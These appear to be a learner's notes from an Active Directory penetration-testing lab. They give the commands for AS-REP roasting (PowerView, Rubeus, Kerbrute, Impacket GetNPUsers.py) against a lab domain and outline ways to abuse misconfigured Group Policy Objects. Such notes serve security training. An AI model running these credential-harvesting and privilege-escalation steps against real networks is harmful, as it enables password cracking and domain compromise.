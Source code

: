## Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
- `Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`
- ![[Pasted image 20250814053504.png]]
- With this information in hand, the Rubeus tool can be leveraged to retrieve the AS-REP in the proper format for offline hash cracking.
- Remember, **add the `/nowrap` flag so the ticket is not column wrapped** and is retrieved in a **format that we can readily feed into Hashcat.**

## Retrieving AS-REP in Proper Format using Rubeus
- `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`
- ![[Pasted image 20250814053552.png]]

## ==Retrieving the AS-REP Using Kerbrute==
- `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt `
- ![[Pasted image 20250814053655.png]]

- With a **==list of valid users, we can use [Get-NPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required.==**
- We can also feed a **wordlist such as `jsmith.txt` into the tool,** it will throw errors for users that do not exist, but if it finds any valid ones without Kerberos pre-authentication, then it can be a nice way to obtain a foothold or further our access.

## ==Hunting for Users with Kerberos Pre-auth Not Required==
- `GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users `
- ![[Pasted image 20250814053806.png]]

# Group Policy Object (GPO) Abuse
--- 
- Group Policy Objects (GPOs) are ==**collections of settings that control how computers and users behave** within a Microsoft Active Directory environment==.
- Group Policy provides administrators with many advanced settings that can be applied to both user and computer objects in an AD environment.
- If we can gain rights over a Group Policy Object via an ACL misconfiguration, we could leverage this for **lateral movement, privilege escalation, and even domain compromise** and as a persistence mechanism within the domain.
  
- GPO misconfigurations **can be abused to perform the following attacks:**
	- **Adding additional rights to a user** (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
	- **Adding a local admin user** to one or more hosts
	- **Creating an immediate scheduled task** to perform any number of actions
- We can enumerate GPO information using many of the **tools we've been using throughout this module such as PowerView and BloodHound**. We can also use [group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/), among others, to audit the security of GPOs in a domain.
